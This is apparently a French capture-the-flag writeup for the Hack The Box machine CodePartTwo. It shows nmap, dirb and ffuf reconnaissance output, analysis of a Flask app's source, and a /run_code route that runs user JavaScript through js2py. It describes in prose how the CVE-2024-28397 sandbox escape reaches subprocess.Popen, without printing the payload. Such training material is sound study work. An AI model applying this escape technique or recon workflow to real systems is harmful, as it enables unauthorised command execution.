



---
# === Archetype writeups – v1 (stable) ===
# === Archetype: writeups (Page Bundle) ===
# Copié vers content/writeups/<nom_ctf>/index.md

# H1 SEO (via title, pas dans le markdown)
title: "CodePartTwo — HTB Easy Writeup & Walkthrough"
linkTitle: "CodePartTwo"
slug: "codeparttwo"
date: 2026-03-30T10:18:59+01:00
#lastmod: 2026-03-07T10:18:59+01:00
draft: false

# --- PaperMod / navigation ---
type: "writeups"
summary: "CodePartTwo (HTB Easy) : sandbox js2py, récupération d’identifiants, accès SSH et escalade via npbackup."
description: "Writeup CodePartTwo (HTB Easy) : exploitation d’une sandbox js2py (CVE-2024-28397), récupération d’identifiants, accès SSH et escalade root via un outil de backup mal configuré."
tags: ["HTB Easy","Web","js2py","sandbox","CVE-2024-28397","Flask","SQLite","SSH","sudo","backup"]
categories: ["Mes writeups"]

# --- TOC & mise en page ---
ShowToc: true
TocOpen: true
# toc_droite: 1

# --- Cover / images (Page Bundle) ---
cover:
  image: "image.png"
  alt: "CodePartTwo HTB Easy : exploitation sandbox JavaScript, accès SSH et escalade de privilèges via npbackup"
  caption: ""
  relative: true
  hidden: false
  hiddenInList: false
  hiddenInSingle: false

# --- Paramètres CTF (placeholders à éditer après création) ---
ctf:
  platform: "Hack The Box"
  machine: "CodePartTwo"
  difficulty: "Easy"
  target_ip: "10.129.x.x"
  skills: ["Enumeration","Web","Privilege Escalation"]
  time_spent: "2h"
  # vpn_ip: "10.10.14.xx"
  # notes: "Points d'attention…"

# --- Options diverses ---
# weight: 10
# ShowBreadCrumbs: true
# ShowPostNavLinks: true

# --- SEO Reminders (à compléter après création) ---
# 1) Titre :
#    - Doit contenir : Nom Machine + HTB Easy + Writeup
# 2) Description :
#    - Résumé 130–160 caractères
#    - Style “Mix Parfait” : pédagogique + technique
#    - Exemple : "Writeup de <machine> (HTB Easy) : énumération claire, analyse de la vulnérabilité et escalade structurée."
# 3) ALT (image de couverture) :
#    - Mixer vulnérabilité + pédagogie + progression
#    - Exemple : "Machine <machine> HTB Easy vulnérable à <faille>, expliquée étape par étape jusqu'à l'escalade."
# 4) Tags :
#    - Toujours ["Easy"]
#    - Ajouter d'autres selon le thème : ["web","shellshock","heartbleed","enum"]
# 5) Structure :
#    - H1 = titre
#    - Description = meta description + preview social
#    - ALT = SEO image + accessibilité

# --- SEO CHECKLIST (à valider avant publication) ---

# [ ] 1) Titre (title + H1)
#     - Contient : Nom Machine + HTB Easy + Writeup
#     - Unique sur le site
#     - Lisible hors contexte HTB

# [ ] 2) Description (meta)
#     - 130–160 caractères
#     - Pas générique
#     - Ton pédagogique + technique
#     - Exemple :
#       "Writeup de <machine> (HTB Easy) : énumération claire,
#        compréhension de la vulnérabilité et escalade structurée."

# [ ] 3) Image de couverture
#     - Présente (ou fallback)
#     - Nom explicite
#     - Dimensions cohérentes

# [ ] 4) ALT de l’image
#     - Décrit la machine + l’approche
#     - Pédagogique (pas juste technique)
#     - Exemple :
#       "Machine <machine> HTB Easy exploitée étape par étape,
#        de l’énumération à l’escalade de privilèges."

# [ ] 5) Tags
#     - Toujours inclure la difficulté (ex: "Easy")
#     - Ajouter uniquement des tags techniques réels

# [ ] 6) Structure du contenu
#     - Un seul H1
#     - Sections claires et hiérarchisées
#     - Pas de sections SEO artificielles

---

<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Codeparttwo> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

La machine **CodePartTwo** de Hack The Box, classée **HTB Easy**, propose un scénario complet mêlant **exécution de code via une sandbox JavaScript basée sur js2py**, **récupération d’identifiants** et **accès SSH sur un environnement Linux**. 

Tu y découvres comment exploiter une faiblesse côté application pour obtenir une première prise de pied, puis analyser un outil de sauvegarde mal configuré afin d’exécuter des commandes avec les privilèges root. 

Ce writeup détaille chaque étape, de l’énumération initiale jusqu’à l’escalade de privilèges, avec une approche claire et reproductible adaptée aux débutants en CTF.

Dans ce writeup, tu exploites une sandbox js2py (CVE-2024-28397), récupères des identifiants via SQLite, puis abuses d’un outil de backup pour obtenir un accès root.

## Énumération



### Scan initial

Le scan initial TCP complet (`scans_nmap/full_tcp_scan.txt`) te révèle les ports ouverts suivants :

> Note : les IP et timestamps peuvent varier selon les resets HTB ; l’important ici est la surface exposée.

```bash
# Nmap 7.98 scan initiated Sat Mar  7 10:32:21 2026 as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN scans_nmap/full_tcp_scan.txt codeparttwo.htb
Nmap scan report for codeparttwo.htb (10.129.x.x)
Host is up (0.013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt

# Nmap done at Sat Mar  7 10:32:30 2026 -- 1 IP address (1 host up) scanned in 9.46 seconds
```

### Scan FTP/SMB (si services détectés)

Après le scan initial, le script enchaîne automatiquement avec une phase d’énumération ciblée **FTP/SMB** si l’un des services suivants est détecté :
- **FTP** sur le port **21**
- **SMB** sur le port **139** et/ou **445**

Les résultats de cette énumération sont enregistrés dans le fichier `scans_nmap/enum_ftp_smb_scan.txt`

```bash
# mon-nmap — ENUM FTP / SMB
# Target : codeparttwo.htb
# Date   : 2026-03-07T10:32:31+01:00

Aucun service FTP (21) ni SMB (139/445) détecté.
Ports ouverts détectés : 22,8000
```


### Scan agressif

Le script enchaîne ensuite automatiquement sur un scan agressif orienté vulnérabilités.

Voici le résultat (`scans_nmap/aggressive_vuln_scan.txt`) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour codeparttwo.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"22,8000" --script="(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 "codeparttwo.htb"

# Nmap 7.98 scan initiated Sat Mar  7 10:32:31 2026 as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p22,8000 "--script=(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 -oN scans_nmap/aggressive_vuln_scan_raw.txt codeparttwo.htb
Nmap scan report for codeparttwo.htb (10.129.x.x)
Host is up (0.012s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   58.42 ms 10.10.x.x
2   7.61 ms  codeparttwo.htb (10.129.x.x)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar  7 10:32:45 2026 -- 1 IP address (1 host up) scanned in 14.82 seconds
```


### Scan ciblé CMS

Vient ensuite le scan ciblé CMS (`scans_nmap/cms_vuln_scan.txt`).

```bash
# Nmap 7.98 scan initiated Sat Mar  7 10:32:45 2026 as: /usr/lib/nmap/nmap --privileged -Pn -sV -p22,8000 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN scans_nmap/cms_vuln_scan.txt codeparttwo.htb
Nmap scan report for codeparttwo.htb (10.129.x.x)
Host is up (0.013s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http    Gunicorn 20.0.4
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
|_http-server-header: gunicorn/20.0.4
|_http-title: Welcome to CodePartTwo
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
| http-headers: 
|   Server: gunicorn/20.0.4
|   Date: Sat, 07 Mar 2026 09:32:54 GMT
|   Connection: close
|   Content-Type: text/html; charset=utf-8
|   Content-Length: 2212
|   
|_  (Request type: HEAD)
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 4
|     /static/css/
|       css: 1
|     /static/js/
|       js: 1
|   Longest directory structure:
|     Depth: 2
|     Dir: /static/css/
|   Total files found (by extension):
|_    Other: 4; css: 1; js: 1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar  7 10:33:23 2026 -- 1 IP address (1 host up) scanned in 37.53 seconds
```


### Scan UDP rapide

Le scan UDP rapide (`scans_nmap/udp_vuln_scan.txt`).

```bash
# Nmap 7.98 scan initiated Sat Mar  7 10:33:23 2026 as: /usr/lib/nmap/nmap --privileged -n -Pn -sU --top-ports 20 -T4 -oN scans_nmap/udp_vuln_scan.txt codeparttwo.htb
Nmap scan report for codeparttwo.htb (10.129.x.x)
Host is up (0.023s latency).

PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   closed        msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   closed        snmp
162/udp   open|filtered snmptrap
445/udp   closed        microsoft-ds
500/udp   open|filtered isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   open|filtered ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  closed        nat-t-ike
49152/udp closed        unknown

# Nmap done at Sat Mar  7 10:33:32 2026 -- 1 IP address (1 host up) scanned in 9.56 seconds
```


### Énumération des chemins web
Pour la découverte des chemins web, tu utilises le script dédié 

```bash
mon-recoweb codeparttwo.htb

# Résultats dans le répertoire scans_recoweb/
#  - scans_recoweb/RESULTS_SUMMARY.txt     ← vue d’ensemble des découvertes
#  - scans_recoweb/dirb.log
#  - scans_recoweb/dirb_hits.txt
#  - scans_recoweb/ffuf_dirs.txt
#  - scans_recoweb/ffuf_dirs_hits.txt
#  - scans_recoweb/ffuf_files.txt
#  - scans_recoweb/ffuf_files_hits.txt
#  - scans_recoweb/ffuf_dirs.json
#  - scans_recoweb/ffuf_files.json

```

Le fichier RESULTS_SUMMARY.txt te permet alors d’identifier rapidement les chemins réellement intéressants, sans avoir à parcourir l’ensemble des logs générés par les outils.

```bash
===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
Script              : mon-recoweb v2.2.1

Cible        : codeparttwo.htb:8000
Périmètre    : /
Date début   : 2026-03-07 10:55:34

Commandes exécutées (exactes) :

[dirb — découverte initiale]
dirb http://codeparttwo.htb:8000/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/codeparttwo.htb_8000/dirb.log

[ffuf — énumération des répertoires]
ffuf -u http://codeparttwo.htb:8000/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/codeparttwo.htb_8000/ffuf_dirs.json 2>&1 | tee scans_recoweb/codeparttwo.htb_8000/ffuf_dirs.log

[ffuf — énumération des fichiers]
ffuf -u http://codeparttwo.htb:8000/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/codeparttwo.htb_8000/ffuf_files.json 2>&1 | tee scans_recoweb/codeparttwo.htb_8000/ffuf_files.log

Processus de génération des résultats :
- Les sorties JSON produites par ffuf constituent la source de vérité.
- Les entrées pertinentes sont extraites via jq (URL, code HTTP, taille de réponse).
- Les réponses assimilables à des soft-404 sont filtrées par comparaison des tailles et des codes HTTP.
- Les URLs finales sont reconstruites à partir du périmètre scanné (racine du site ou sous-répertoire ciblé).
- Les résultats sont normalisés sous la forme :
    http://cible/chemin (CODE:xxx|SIZE:yyy)
- Les chemins sont ensuite classés par type :
    • répertoires (/chemin/)
    • fichiers (/chemin.ext)
- Le fichier RESULTS_SUMMARY.txt est généré par agrégation finale, sans retraitement manuel,
  garantissant la reproductibilité complète du scan.

----------------------------------------------------

=== Résultat global (agrégé) ===

http://codeparttwo.htb:8000/dashboard (CODE:302|SIZE:199)
http://codeparttwo.htb:8000/dashboard/ (CODE:302|SIZE:199)
http://codeparttwo.htb:8000/download (CODE:200|SIZE:10708)
http://codeparttwo.htb:8000/download/ (CODE:200|SIZE:10708)
http://codeparttwo.htb:8000/login (CODE:200|SIZE:667)
http://codeparttwo.htb:8000/login/ (CODE:200|SIZE:667)
http://codeparttwo.htb:8000/logout (CODE:302|SIZE:189)
http://codeparttwo.htb:8000/logout/ (CODE:302|SIZE:189)
http://codeparttwo.htb:8000/register (CODE:200|SIZE:651)
http://codeparttwo.htb:8000/register/ (CODE:200|SIZE:651)

=== Détails par outil ===

[DIRB]
http://codeparttwo.htb:8000/dashboard (CODE:302|SIZE:199)
http://codeparttwo.htb:8000/download (CODE:200|SIZE:10708)
http://codeparttwo.htb:8000/login (CODE:200|SIZE:667)
http://codeparttwo.htb:8000/logout (CODE:302|SIZE:189)
http://codeparttwo.htb:8000/register (CODE:200|SIZE:651)

[FFUF — DIRECTORIES]
http://codeparttwo.htb:8000/dashboard/ (CODE:302|SIZE:199)
http://codeparttwo.htb:8000/download/ (CODE:200|SIZE:10708)
http://codeparttwo.htb:8000/login/ (CODE:200|SIZE:667)
http://codeparttwo.htb:8000/logout/ (CODE:302|SIZE:189)
http://codeparttwo.htb:8000/register/ (CODE:200|SIZE:651)

[FFUF — FILES]

```


### Recherche de vhosts

Enfin, teste rapidement la présence de vhosts  avec  le script 

```bash
mon-subdomains codeparttwo.htb

# Résultats dans le répertoire scans_subdomains/
#  - scans_subdomains/scan_vhosts.txt
```

Si aucun vhost distinct n’est détecté, ce fichier te permet malgré tout de confirmer que le fuzzing n’a rien révélé d’exploitable.

```bash
=== mon-subdomains codeparttwo.htb START ===
Script       : mon-subdomains
Version      : mon-subdomains 2.0.0
Date         : 2026-03-09 09:54:32
Domaine      : codeparttwo.htb
IP           : 10.129.x.x
Mode         : large
Master       : /usr/share/wordlists/htb-dns-vh-5000.txt
Codes        : 200,301,302,401,403  (strict=1)

VHOST totaux : 0
  - (aucun)

--- Détails par port ---
Port 8000 (http)
  Baseline#1: code=200 size=2212 words=202 (Host=dewd945nez.codeparttwo.htb)
  Baseline#2: code=200 size=2212 words=202 (Host=q1i70d4de3.codeparttwo.htb)
  Baseline#3: code=200 size=2212 words=202 (Host=v42borj2u6.codeparttwo.htb)
  VHOST (0)
    - (fuzzing sauté : wildcard probable)
    - (explication : réponse identique quel que soit Host → vhost-fuzzing non discriminant)


=== mon-subdomains codeparttwo.htb END ===
```


## Prise pied

Sur cette machine **Hack The Box HTB Easy CodePartTwo**, la phase d’énumération a permis d’identifier deux éléments importants :

- un service **SSH** accessible sur le port **22**
- une **application web** exposée sur le port **8000**, servie par **Gunicorn 20.0.4**

Lorsque l’application est servie par `Gunicorn`, tu peux en déduire que **le backend est en Python**.

`Gunicorn` est en effet un **serveur WSGI** couramment utilisé pour déployer des applications Python, notamment celles développées avec des frameworks comme **Flask**, **FastAPI** ou **Django**.

### Analyse de l’application web (Gunicorn / Python)

En ouvrant l’application dans ton navigateur à l’adresse suivante :

```bash
http://codeparttwo.htb:8000
```

tu arrives sur la page d’accueil de l’application CodePartTwo.




La page présente brièvement le projet **CodePartTwo**, une plateforme qui permet aux développeurs **d’écrire, sauvegarder et exécuter du code JavaScript** directement depuis l’application.

L’interface reste volontairement simple et met en avant trois actions principales :

- **Login**
- **Register**
- **Download App**

Les boutons **Login** et **Register** permettent respectivement de **se connecter** ou de **créer un compte utilisateur** afin d’accéder aux fonctionnalités de l’application.

Le bouton **Download App**, lui, est particulièrement intéressant dans un contexte **Hack The Box** : il te permet de **télécharger directement l’application**.

Dans un CTF, lorsque le code source d’une application est accessible, cela représente souvent une opportunité importante.
 L’analyse du code peut en effet t’aider à comprendre **le fonctionnement interne de l’application**, à identifier les **routes disponibles**, et parfois à repérer **une vulnérabilité exploitable**.

Dans ce contexte, le plus utile est donc de **** afin d’analyser son code plus en détail.

### Téléchargement et analyse du code source (Download App)
#### Téléchargement de l’application

Comme tu l’as vu précédemment, le bouton **Download App** présent sur la page d’accueil permet de récupérer directement l’application.

En cliquant dessus, ton navigateur télécharge une **archive contenant le code source du projet**.

Tu peux également récupérer ce fichier depuis la ligne de commande avec `curl` :

```bash
curl -O http://codeparttwo.htb:8000/download
```

Une fois le téléchargement terminé, il te suffit d’extraire l’archive pour accéder aux fichiers de l’application.

```bash
unzip download
```

Tu disposes alors d’une **copie complète du code source de l’application web** sur ta machine.

Dans un **CTF Hack The Box**, pouvoir analyser le code source est souvent un avantage majeur.
Cela permet d’identifier les **routes disponibles**, de comprendre **comment les données sont traitées**, et surtout de repérer plus facilement **une vulnérabilité exploitable**.

Il faut maintenant **examiner la structure du projet** afin d’identifier les fichiers les plus intéressants.

#### Analyse de la structure du projet

Après extraction de l’archive, tu obtiens l’arborescence suivante :

```texte
app.py
requirements.txt
instance/
static/
templates/
```

L’archive contient plusieurs fichiers et répertoires, mais le fichier **`app.py`** est celui qu’il faut analyser en priorité.

Dans de nombreuses applications Python basées sur **Flask** ou des frameworks similaires, ce fichier constitue le **point d’entrée de l’application**.
C’est généralement dans ce fichier que sont définies :

- les **routes de l’application**
- la **logique applicative**
- les fonctions qui traitent les **données envoyées par les utilisateurs**

En explorant le répertoire **`instance/`**, tu identifies une base de données SQLite nommée **`users.db`**.

```bash
ls instance/

users.db
```

Tu peux l’ouvrir avec **sqlite3** afin d’examiner son contenu :

```bash
sqlite3 instance/users.db
```

Cependant, la base de données présente dans l’archive téléchargée est vide et ne contient aucun utilisateur.

Cela suggère que les comptes sont créés directement sur la machine cible lorsque les utilisateurs s’inscrivent via l’application.

Pour comprendre comment l’application gère ces comptes, il est utile d’examiner **`app.py`**, qui contient la logique principale de l’application.

L’analyse de **`app.py`** permet de comprendre le fonctionnement interne de l’application et d’identifier les zones où une vulnérabilité peut être présente.

Tu peux donc maintenant **examiner ce fichier** afin d’identifier les différentes fonctionnalités exposées par l’application.

### Identification de la fonctionnalité d’exécution de code (js2py)
En poursuivant l’analyse du projet, deux fichiers sont à examiner en priorité :

- **`requirements.txt`**, qui liste les dépendances Python
- **`app.py`**, qui contient la logique de l’application

Le fichier **`requirements.txt`** contient notamment :

```texte
flask==3.0.3
flask-sqlalchemy==3.1.1
js2py==0.74
```

Les dépendances **Flask** et **Flask-SQLAlchemy** confirment que l’application repose sur une architecture Python classique avec un framework web et une base de données.

En revanche, la présence de **js2py==0.74** constitue un élément beaucoup plus sensible du point de vue de la sécurité.

La bibliothèque **js2py** permet d’exécuter du **code JavaScript directement depuis Python**, en embarquant un interpréteur JavaScript dans l’application.

Dans un contexte de développement, cela peut servir à permettre aux utilisateurs **d’écrire ou tester du code JavaScript**.

Dans un **CTF Hack The Box**, la présence d’un mécanisme d’exécution de code est un point à examiner en priorité :

**si l’environnement n’est pas correctement isolé, il peut être possible de sortir de la sandbox et d’interagir avec le système sous-jacent.**

Il reste alors à voir **où et comment cette bibliothèque est utilisée dans l’application**.

En examinant ensuite le fichier **`app.py`**, tu retrouves justement l’import de cette bibliothèque :

```python
import js2py
```

Un peu plus loin dans le code, une route attire particulièrement l’attention :

```python
@app.route("/run_code", methods=["POST"])
def run_code():
```

Le nom de cette route est déjà très explicite : **`/run_code`** suggère une fonctionnalité d’**exécution de code**.

En lisant la fonction associée, tu peux voir que l’application récupère le contenu envoyé par l’utilisateur, puis le transmet à **`js2py`** pour exécution :

```python
@app.route("/run_code", methods=["POST"])
def run_code():
    user_code = request.json.get("code")
    context = js2py.EvalJs()
    result = context.eval(user_code)
    return jsonify({"result": result})
```

Cette portion de code montre clairement le fonctionnement :

- l’utilisateur envoie du code dans le champ **`code`**
- l’application crée un contexte JavaScript avec **`js2py.EvalJs()`**
- le contenu reçu est exécuté avec **`context.eval(user_code)`**
- le résultat est renvoyé au format **JSON**

La route `/run_code` permet donc d’exécuter directement du code JavaScript côté serveur via js2py.

Il faut ensuite **tester concrètement cette route** afin de vérifier si le serveur exécute effectivement le code JavaScript envoyé par l’utilisateur.

### Exploitation de la sandbox js2py
#### Test de l’API /run_code (exécution de code)

L’analyse du fichier **`app.py`** montre que la route **`/run_code`** reçoit du code JavaScript envoyé par l’utilisateur et l’exécute à l’aide de la bibliothèque **`js2py`**.

La première étape consiste donc à tester cette API en pratique afin de vérifier si le serveur exécute réellement le code JavaScript envoyé dans la requête.

Plutôt que d’utiliser l’interface web, il est souvent plus simple de tester directement l’API avec **curl**, ce qui permet d’envoyer des requêtes HTTP personnalisées depuis le terminal.

Tu peux pour cela envoyer une requête HTTP **POST** vers cette route :

```bash
curl -X POST http://codeparttwo.htb:8000/run_code \
  -H "Content-Type: application/json" \
  -d '{"code":"1+1"}'
```

Dans cette requête :

- la méthode **POST** est utilisée pour appeler l’API
- l’en-tête **Content-Type: application/json** indique que les données sont envoyées au format JSON
- le champ **`code`** contient le code JavaScript à exécuter

Si l’API fonctionne comme suggéré par le code source, le serveur doit exécuter l’expression JavaScript **`1+1`** puis renvoyer le résultat dans la réponse.

La réponse obtenue confirme ce comportement :

```bash
{"result": 2}
```

Cela signifie que :

- la route **`/run_code`** est bien accessible
- le code JavaScript envoyé dans la requête est **effectivement exécuté côté serveur**
- le résultat de l’exécution est renvoyé au format **JSON**

Cette étape confirme donc que l’application expose **un mécanisme d’exécution de code JavaScript côté serveur**.

Tu peux maintenant vérifier si l’environnement js2py est correctement isolé, ou s’il est possible d’interagir avec les objets Python sous-jacents.

Si ce n’est pas le cas, il pourrait être possible de **sortir de la sandbox et d’accéder au système**.

#### Évasion de la sandbox js2py (CVE-2024-28397)

Le test confirme que `/run_code` exécute du code JavaScript côté serveur via js2py.

En théorie, cette exécution devrait se faire dans une **sandbox**, c’est-à-dire un environnement isolé censé empêcher l’accès au système ou aux objets internes de l’application.

À ce stade, une bonne pratique consiste à rechercher si la bibliothèque utilisée présente **des vulnérabilités connues**.
 Une recherche rapide du type :

```texte
js2py 0.74 poc exploit github
```

permet rapidement de trouver un **Proof of Concept** décrivant une vulnérabilité dans **js2py 0.74**.

La première réponse de cette recherche renvoie vers le dépôt GitHub de **Marven11**, qui décrit une **évasion de la sandbox js2py (CVE-2024-28397)** :

https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape

La plupart des autres articles et analyses disponibles sur Internet se réfèrent d’ailleurs souvent à ce travail initial.

Ce PoC montre qu’il est possible de **sortir de la sandbox JavaScript et d’accéder à l’environnement Python sous-jacent**, ce qui ouvre la voie à l’exécution de commandes sur le serveur.

Tu peux maintenant tester cette technique sur l’API `/run_code` afin de vérifier si l’application est vulnérable.

#### Explication du PoC de Marven11

Dans **`app.py`**, on peut voir que l’application tente de sécuriser l’environnement d’exécution avec l’instruction :

```
js2py.disable_pyimport()
```

Cette fonction est censée empêcher l’import de modules Python depuis le code JavaScript exécuté par **js2py**, afin d’éviter qu’un utilisateur puisse accéder directement aux fonctionnalités du système.

Cependant, le PoC publié par **Marven11** montre qu’il est possible de **contourner cette restriction**.
 L’exploitation repose sur l’utilisation des mécanismes d’introspection de Python accessibles indirectement depuis l’environnement JavaScript.

Le payload commence par récupérer certains attributs internes comme **`__class__`** et **`__base__`**, puis parcourt les **classes Python disponibles en mémoire** grâce à la méthode **`__subclasses__()`**.
 Cette recherche permet finalement d’identifier la classe **`subprocess.Popen`**, qui peut être utilisée pour **exécuter des commandes système**.

Une fois cette classe trouvée, le PoC l’utilise pour lancer une commande sur le système et récupérer le résultat avec **`.communicate()`**.

Autrement dit, même si **`js2py.disable_pyimport()`** empêche l’import direct de modules Python, il reste possible de **remonter vers les objets internes de Python et d’exécuter des commandes système**, ce qui permet de sortir de la sandbox **js2py**.

### Exploitation du PoC js2py sur la cible

Pour vérifier si la cible est vulnérable à cette technique, tu peux adapter le PoC et tester l’exploitation directement depuis l’interface web de l’application.

Commence par créer un compte utilisateur via la page **Register**. Par exemple :

```
noelnac : password123
```

Une fois l’inscription effectuée, connecte-toi via **Login**.
 Tu arrives alors sur le **dashboard**, qui permet d’exécuter du code JavaScript grâce à la fonctionnalité **Run Code**.

